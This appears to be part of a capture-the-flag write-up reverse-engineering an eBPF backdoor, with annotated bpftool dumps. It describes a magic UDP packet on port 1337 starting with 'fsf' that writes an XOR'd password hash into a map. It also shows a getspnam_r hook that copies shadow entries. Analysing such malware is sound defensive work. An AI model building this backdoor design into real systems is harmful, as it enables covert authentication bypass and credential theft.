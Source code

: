 ```
 103: (73) *(u8 *)(r10 -293) = r1                # replace fourth byte with xor'd value

 191: (71) r1 = *(u8 *)(r10 -263)                # read 34th byte/last of udp payload
 192: (a7) r1 ^= 66
 193: (73) *(u8 *)(r10 -263) = r1                # payload[34] ^= 66

 194: (18) r1 = map[id:4][0]+0                   # let r1 point to map_id 4
 
 196: (79) r2 = *(u64 *)(r10 -272)               # write udp payload xor'd with 66 to map_id 4, attribute hash
 197: (bf) r3 = r2
 198: (77) r3 >>= 56

 289: (b7) r2 = 1
 290: (73) *(u8 *)(r1 +0) = r2                   # write 1 (true) to map_id 4 offset 0, attribute enabled
 
 291: (b7) r0 = 0
 292: (95) exit
```

### Analysis of prog_id 16, Proven Hypothesis
Checks done on each processed packet are:
- ip version = 4
- ip header len = 20 bytes
- ip protocol = 0x11 (udp)
- udp dst port = 1337 (0x3905, little endian)
- udp len = 42 (0x2a00, little endian)
- udp payload begins with 'fsf' (0x66, 0x73, 0x66)

If all checks succeed, this is a **magic** packet to enable the backdoor and write an md5crypt hash into map_id 4. Value of this hash is taken from udp payload bytes 4-34, xor'd with 66 ('B').

### Deep Dive eBPF code for prog_id 17
The output of bpftool is shortened and commented for readability purposes.
```
root@egghunt:/sys/kernel/debug/tracing/events/net/netif_receive_skb# bpftool prog dump xlated id 17
int getspnam_r_entry(long long unsigned int * ctx):
   0: (bf) r3 = r1                               # src = *ctx
  23: (bf) r1 = r10
  24: (07) r1 += -168                            # dst on stack
  25: (b7) r2 = 168                              # len = 168 bytes
  26: (85) call bpf_probe_read_compat#-54752     # read 168 bytes from *ctx

  27: (55) if r0 != 0x0 goto pc+12               # exit on failed read

  28: (85) call bpf_get_current_pid_tgid#119360
  29: (7b) *(u64 *)(r10 -176) = r0               # write pid_tgid to stack r10 - 176
                            
  36: (18) r1 = map[id:3]
  38: (b7) r4 = 0
  39: (85) call htab_map_update_elem#134224      # write shadow entry to map_id 3
  
  40: (b7) r0 = 0
  41: (95) exit
```
